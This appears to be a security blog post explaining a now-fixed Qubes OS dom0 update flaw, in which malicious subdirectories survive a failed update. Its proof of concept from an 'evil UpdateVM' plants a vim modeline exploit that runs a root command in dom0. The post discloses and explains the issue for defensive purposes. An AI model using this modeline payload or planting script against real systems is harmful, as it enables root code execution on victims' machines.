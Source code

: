 ```yaml
---
date: 2019-10-06
---
```


Qubes OS dom0 updates
=====================

Preface
-------

The issue described in this post is **not** a security flaw by itself.
This post merely presents some musings on Qubes OS in an attempt to
improve my writing.

User interaction is required to exploit the bug described below.  More
specifically, a user has to process potentially malicious data after a
failed download/update (e.g. by opening a file with `vim` or navigating
to the download directory with `Thunar`).

Also, this issue along with a few other issues have been fixed in
[e5e006d933b3f45c9bcee6cd891ddc5dd3178816][1].


Updates in `dom0`
-----------------

Qubes OS takes an interesting approach to updating `dom0` (also known as
`AdminVM`).  By default, `dom0` has no networking, so updates can't be
downloaded directly.  Instead, a `domU` with the special [UpdateVM][2]
class is used to download updates on behalf of `dom0`.

The communication between `dom0` and the `UpdateVM` takes place over the
`Qrexec` framework.  [Qrexec][3] is implemented with [Xen vchan][4] and
it exposes a client-server communication channel through shared memory
between `dom0` and `domU`.

The update process in Qubes is designed such that `dom0` uses a script
called `qubes-dom0-update` to send its configuration and list of
repositories to the `UpdateVM`.  The `UpdateVM` then downloads any
available updates and sends them to dom0 with an RPC service called
`qubes.ReceiveUpdates`.

The RPC service runs in `dom0` and delegates execution to a program
named `qubes-receive-updates`.  This program verifies that the sender is
a legitimate `UpdateVM` and then receives RPM packages from the
`UpdateVM` with a program called `qfile-dom0-unpacker`.  The package
signatures are then verified in `dom0`.  If everything succeeds, a local
file-based repository is created with `createrepo_c` and the packages
are installed.

Now, an interesting aspect of `qfile-dom0-unpacker` is that it not only
handles regular files, but also symbolic links and directories.
However, `qubes-receive-updates` is only interested in regular files,
and it guards against other file types like so:

`qubes-receive-updates`:
```python
 40: package_regex = re.compile(r"^[A-Za-z0-9._+-]{1,128}.rpm$")
[...]
 82: subprocess.check_call(["/usr/libexec/qubes/qfile-dom0-unpacker",
 83:     str(os.getuid()), updates_rpm_dir])
 84: # Verify received files
 85: for untrusted_f in os.listdir(updates_rpm_dir):
 86:     if not package_regex.match(untrusted_f):
 87          dom0updates_fatal(updates_rpm_dir + '/' + untrusted_f
 88              'Domain ' + source + ' sent unexpected file: ' + untrusted_f)
 89:     else:
 90:         f = untrusted_f
[...]
 95:         full_path = updates_rpm_dir + "/" + f
[...]
 96:         if os.path.islink(full_path) or not os.path.isfile(full_path):
 97:             dom0updates_fatal(
 98:                 full_path, 'Domain ' + source + ' sent not regular file')
 99:         p = subprocess.Popen(["/bin/rpm", "-K", full_path],
100:                 stdout=subprocess.PIPE)
101:         output = p.communicate()[0].decode('ascii')
102:         if p.returncode != 0:
103:             dom0updates_fatal(full_path,
104:                 'Error while verifing %s signature: %s' % (f, output))
```

The function `dom0updates_fatal()` is invoked on line **97** if the file
isn't a regular non-linked file.  That function looks as follows:

`qubes-receive-updates`:
```python
def dom0updates_fatal(pkg, msg):
    global updates_error_file_handle
    print(msg, file=sys.stderr)
    if updates_error_file_handle is None:
        updates_error_file_handle = open(updates_error_file, "a")
        updates_error_file_handle.write(msg + "\n")
    os.remove(pkg)
```

There are two interesting aspects of the function above.  The first is
that it returns, meaning that execution continues on fatal conditions
(there are a few code paths in `qubes-receive-updates` that assumes that
not to be the case, and exceptions are thrown when a deleted file is
later referenced).

The other interesting behavior of `dom0updates_fatal()` is the use of
`os.remove()` to remove a faulty package.  This is interesting because,
again, `qfile-dom0-unpacker` may create directory structures in
`updates_rpm_dir`.  And `os.remove()` throws an exception if it's given
a directory (which may happen on line **#87** and **#98** in the excerpt
above).

The implication of the previous paragraph is that potentially malicious
files could linger around on the filesystem if they are located in a
subdirectory of the update directory.

Files in these (potentially malicious) subdirectories are **not**
processed by the Qubes update system in any way.  In fact, they are
removed the next time `qubes-receive-updates` executes.  However, these
failures may induce some users to explore the update directory in
between executions of `qubes-receive-updates` (especially if the update
procedure fails constantly in a DoS by a malicious package mirror, MITM
or a compromised `UpdateVM`).  And that is where this issue may become
problematic.

`Dom0` in Qubes 4.0 is built on Fedora 25, which has been end-of-life
since 2017-12-12.  This is generally not seen as an issue, because
`dom0` has no networking and the attack surface is smaller than a
traditional Linux distribution (the Qubes team provides security updates
for the exposed parts of the system; such as the kernel, Xen and
microcode); however it does mean that dom0 has a fair number of programs
that likely has published vulnerabilities.

If a user were to explore the directory structure after a failed update
with a program like [Thunar][5] (included in a default installation of
Qubes 4), then they open themselves up to all sorts of attacks related
to thumbnail rendering and auto-mounting.

Even opening a malicious file in the update directory with something
like [vim][6] is dangerous.

For example, from an evil `UpdateVM`:

```sh
#!/bin/bash

DIR="$HOME/doc"
mkdir -p "$DIR"

ln -s /etc/fedora-release "$DIR/link"
cat >"$DIR/IMPORTANT-UPDATE-NOTES.txt" <<EOF
:!sudo sh -c "id > /etc/pwned" || \
" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
EOF

qrexec-client-vm dom0 qubes.ReceiveUpdates /usr/lib/qubes/qfile-agent "$DIR"
```

And in `dom0` after `qubes-dom0-update` has failed:

```sh
[user@dom0 ~]$ tree /var/lib/qubes/updates/
/var/lib/qubes/updates/
|-- errors
`-- rpm
    `-- doc
        |-- IMPORTANT-UPDATE-NOTES.txt
        `-- link -> /etc/fedora-release

2 directories, 3 files

[user@dom0 ~]$ cat /var/lib/qubes/updates/rpm/doc/link
Qubes release 4.0 (R4.0)

[user@dom0 ~]$ cat /etc/pwned
cat: /etc/pwned: No such file or directory
[user@dom0 ~]$ vim /var/lib/qubes/updates/rpm/doc/IMPORTANT-UPDATE-NOTES.txt
[...]
[user@dom0 ~]$ cat /etc/pwned
uid=0(root) gid=0(root) groups=0(root)
[user@dom0 ~]$
```

As mentioned in the preface, this issue (along with a few other minor
issues) has been fixed in [master][1].  Furthermore, `UpdateVM`s based
on Fedora verifies package signatures on download before they are
shipped to `dom0` (thus mitigating the risk of a malicious mirror, so
long as the UpdateVM is trusted).  Unfortunately, Debian-based
`UpdateVM`s do **not** verify package signatures before sending them to
`dom0`, but that will change [soon][7].


[1]: https://github.com/QubesOS/qubes-core-admin-linux/commit/e5e006d933b3f45c9bcee6cd891ddc5dd3178816
[2]: https://www.qubes-os.org/doc/dom0-secure-updates/
[3]: https://www.qubes-os.org/doc/qrexec/
[4]: https://www.cs.uic.edu/~xzhang/vchan/
[5]: https://www.qubes-os.org/doc/security-guidelines/
[6]: https://nvd.nist.gov/vuln/detail/CVE-2019-12735
[7]: https://github.com/QubesOS/qubes-core-agent-linux/pull/187
